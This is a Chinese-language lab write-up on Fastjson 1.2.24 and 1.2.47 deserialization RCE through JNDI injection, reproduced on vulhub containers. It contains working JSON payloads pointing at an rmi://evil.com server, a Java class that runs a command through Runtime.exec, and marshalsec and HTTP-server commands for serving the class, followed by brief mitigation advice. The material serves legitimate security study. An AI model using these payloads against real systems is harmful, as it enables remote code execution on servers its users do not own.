



## 前置知识

**Fastjson**  
fastjson是一个Java的库，可以将Java对象转换为Json字符串，也可以将Json字符串转换为Java对象，Fastjson也可以操作一些Java中的对象。

**JNDI**  
`JNDI(Java Naming and Directory Interface)`是一个应用程序接口，主要提供查找、访问、命名常见的接口，定位网路、用户、对象和服务一些资源，简单理解就是`JNDI`将常用的功能、组件、服务取了名字，然后使用名字来查找使用。  
JNDI可以使用`RMI`远程对象调用，支持的常见服务有`DNS、LDAP、RMI、CORBA` 

**RMI**  
RMI(远程方法调用Remote Method Invocation),远程调用方法在分布式编程中很常见，主要实现远程方法的调用，其中`RMI`是专门给Java环境设计的远程方法调用机制
- **正常作用：跨服务器的方法调用。** 假设你有两台服务器 A 和 B，都跑着 Java。A 上的程序想执行一个复杂的计算，但计算逻辑在 B 服务器的对象上。通过 RMI，A 可以像调用本地方法一样，直接调用 B 服务器上的对象方法（比如 `b.calculate()`），甚至可以把 B 上的对象直接“拿”过来用。它就像是一根无形的网线，把不同机器上的 Java 虚拟机连在了一起。
- **在攻击中的作用：发引荐信。** 因为 RMI 允许传输 Java 对象，所以攻击者就搭一个恶意的 RMI 服务器。当受害者连过来要对象时，RMI 服务器利用 JNDI 的特性，不给真实对象，而是给出一个 **Reference（引荐信）**，指向外部的 HTTP 服务器。

**LDAP**
LDAP（Lightweight Directory Access Protocol - 轻量级目录访问协议）
- **正常作用：统一的目录信息查询。** LDAP 是一种标准的目录服务协议，不是 Java 独有的（C++、Python 都能用）。你可以把它理解为一个高度优化的、树状结构的数据库。在企业里，它通常用来做**员工信息管理、单点登录（SSO）认证、资产管理**。 比如，你入职一家新公司，只需要一套账号密码就能登录公司的邮箱、内网 OA、财务系统，这背后通常就是 LDAP 服务器在统一管理你的权限和凭证。在 Java 中，可以通过 JNDI-LDAP 把一个 Java 对象绑定到 LDAP 的目录树上供人查询。
- **在攻击中的作用：同样是发引荐信，但更好用！** 在 JNDI 注入攻击中，恶意 LDAP 服务器的作用和 RMI 完全一样——也是返回一个指向 HTTP 服务器的 Reference（引荐信）。

**JDNI注入**  
通过上述的一些基础前置知识，大概可以了解到`JNDI`中有一个服务`RMI`可以支持Java远程方法的调用，如果使用rmi调用的远程地址中的方法有一些危险的代码，并没有经过处理，就会导致命令的执行，具体流程图如下。转载:`先知社区`  


## 漏洞原理

**本质**
攻击者本地有一个恶意的.class文件，攻击者想要目标下载这个.class文件去执行，但是目标网站即使可以访问也不会主动去下载，这时候就需要借助RMI/LDAP服务器，RMI/LDAP是JNDI支持的服务，并且JNDI有动态类加载与命名应用机制，受害者访问RMI/LDAP是想获取一个java对象，但RMI/LDAP告诉受害者我这里没有，你去这个地址下载，这样受害者就去下载攻击者服务器中的恶意.class文件加载。
- **最最最本质就是利用JNDI的Reference 机制与动态类加载**
	Reference 机制类似于http的重定向

**java内鬼：Fastjson 的“神助攻”：自动调用 Setter 方法**
要理解“内鬼”怎么发作，首先要明白 Fastjson 是怎么还原（反序列化）一个 Java 对象的。

当你发送这样一段 JSON 时：
```json
{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://evil.com:9999/TouchFile",
    "autoCommit":true
}
```
Fastjson 看到 `@type` 后，会先在内存中 `new` 一个 `JdbcRowSetImpl` 对象。 紧接着，为了把 JSON 里的值赋给这个对象，Fastjson 会利用 Java 的反射机制，**自动去调用对应属性的 `set` 方法**
也就是说，Fastjson 在后台默默帮你执行了下面两行代码：
```java
obj.setDataSourceName("rmi://[evil.com:9999/TouchFile](https://evil.com:9999/TouchFile)");

obj.setAutoCommit(true);
```
目标服务器就立刻向你的 RMI 服务器发起了网络请求，后续的“接引荐信 -> 下载恶意的 .class -> 静态代码块执行”就顺理成章地发生了。

**攻击链**
```
① fastjson 解析 @type  
→ ② 实例化 JdbcRowSetImpl 并调 setter
→ ③ setAutoCommit 触发 lookup(rim或ldap://攻击者)   ←———— 出网请求
→ ④ 攻击者的恶意 LDAP/RMI 服务返回 Reference
→ ⑤ 目标下载攻击者 HTTP 服务器上的恶意 .class
→ ⑥ 加载类、执行 static 代码块  →  RCE
```

**原理**
Fastjson 的 autoType 功能允许通过 `@type` 字段指定需要实例化的 Java 类。由于对类名的校验不完善，攻击者可以指定危险类（如 `JdbcRowSetImpl`），利用其 `setter` 方法触发 JNDI 注入，连接攻击者控制的 RMI/LDAP 服务器，从而加载并执行远程恶意代码，实现远程代码执行。

# fastjson1.2.24-rce
## 漏洞复现

**开启vulhub的fastjson1.2.24-rce的docker容器**

**攻击前容器/tmp目录下无success文件**
	

**编写java类**
```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
// 创建tmp下创建success文件
```

**编译**
```javac
javac -source 1.8 -target 1.8 TouchFile.java
```
- 
	

**开启http服务**
	`python3 -m http.server 9000`

**使用marshalsec开启rmi服务**
```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://<你的Kali_IP>:端口/#TouchFile" 9999
```
- **`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar`**
    - `java`：调用 Java 运行环境。
    - `-cp`（classpath）：告诉 Java 去哪里找我们要运行的程序。
- **`marshalsec.jndi.RMIRefServer`**
    - 这是 `marshalsec` 工具包里内置的一个特定程序模块。
    - 它的全称是 RMI Reference Server（RMI 引用服务器）。它的唯一工作，就是监听网络，当有人来要对象时，直接甩给对方一个 JNDI Reference（引荐信）。
- **`"http://<你的Kali_IP>:9000/#TouchFile"`**
    - 这是命令里**最核心的灵魂参数**，也就是你要写进引荐信里的“真实提货地址”。
    - `http://<你的Kali_IP>:8000/`：指向你刚刚用 Python 启动的 HTTP 服务目录。
    - `#TouchFile`：告诉受害者的 Java 环境，去这个 HTTP 地址下载的文件名叫 `TouchFile.class`，并且下载完后，立刻把这个类加载到内存里。
        
- **`9999`**
    - 这是这个恶意 RMI 服务器监听的端口号。
    - 它就一直在这个端口等着目标服务器“自投罗网”。


**构造请求包**
可以看到这里时允许POST请求方式的
	
将请求方式改为POST，添加json数据，修改content-type为application/json
	

攻击成功：
- rmi日志
	
- http日志
	
- 查看docker容器发现文件创建成功。
	

## 防护
1. 升级 Fastjson，至少不要使用 `1.2.24`，同时升级 Java。
2. 禁用 `autoType`，拒绝 JSON 中的 `@type`、`@class` 等类型字段。
3. 限制容器出网，阻断 RMI、LDAP 和未知 HTTP 连接。


# fastjson1.2.47-rce

**与fastjson1.2.24-rce区别**
-  **1.2.47 漏洞（绕过 CheckAutoType 机制）：**
    - **机制：** Fastjson 在 1.2.25 之前**没有引入 CheckAutoType 安全检查机制**。
    - **特点：** 攻击者可以直接指定任意存在漏洞的类（即 Gadget，如 `com.sun.rowset.JdbcRowSetImpl`），Fastjson 会直接通过反射加载并实例化该类，自动调用其 setter/getter 方法触发 JNDI 注入。
        
- **1.2.47 漏洞（绕过 CheckAutoType 机制）：**
    - **机制：** 从 1.2.25 版本开始，Fastjson 引入了 `CheckAutoType` 黑名单与白名单防护。但 1.2.47 存在**逻辑缺陷**：如果目标类已经存在于 Fastjson 的**本地缓存**中，`CheckAutoType` 会直接返回该类而不再进行黑名单拦截。
    - **特点：** 攻击者先利用 `java.lang.Class` 将恶意类（如 `JdbcRowSetImpl`）**加载并写入 Fastjson 的 TypeUtils 内存缓存**中，随后在第二段 Payload 中直接使用该类，从而绕过黑名单防护。

 **1.2.24 漏洞（无CheckAutoType 机制）**
```http
{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://evil.com:9999/Exploit",
    "autoCommit":true
}
```
 **1.2.47 格式（两步分工：先缓存，后利用）：**
```http
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/Exploit",
        "autoCommit":true
    }
}
```
以上是连个版本漏洞复现唯一区别其余不变。

攻击前无success文件
	
攻击后：
- rmi日志
	
- http日志
- docker容器成功执命令创建success文件